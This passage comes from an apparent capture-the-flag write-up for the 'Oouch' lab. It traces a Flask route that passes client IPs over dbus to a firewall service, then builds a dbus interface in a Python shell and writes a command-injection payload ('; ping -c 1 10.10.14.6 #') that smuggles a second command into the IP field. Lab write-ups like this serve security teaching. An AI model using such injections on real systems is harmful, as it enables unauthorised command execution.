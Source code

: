 ```
        return render_template('contact.html', title='Contact', send=True, form=form)

    # Except the functions goes up to here. In this case, no form was submitted and we do not need to inform the user
    return render_template('contact.html', title='Contact', send=False, form=form)

```

In the middle of that route, it checks the input data against the `primitive_xss` search, and if it matches, it uses `dbus` to send the client IP and then closes the connection, returning the Hacker page.

I know when this happens, I’m blocked from communicating with Oouch for a minute, and the note earlier suggested it was via IP tables.

### Exploit

I’m going to hypothesize that the dbus server is receiving IPs and running an `iptables` command to block it, and that I might be able to do command injection if it is not handling that input correctly.

I opened a local Python shell and used the commands in the web-app as a template. `import dbus` fails, until I set the path like in the app, and then it works:

```

www-data@aeb4525789d8:/code$ python
Python 3.7.6 (default, Feb  2 2020, 09:11:24) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import dbus
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ModuleNotFoundError: No module named 'dbus'
>>> import sys                                          
>>> sys.path.insert(0, "/usr/lib/python3/dist-packages")
>>> import dbus

```

Now I’ll create a `bus` object, and set the interface.

```

>>> bus = dbus.SystemBus()
>>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
>>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

```

For a payload, I’ll see if I can just append a `ping`:

```

>>> client_ip = '; ping -c 1 10.10.14.6 #'

```
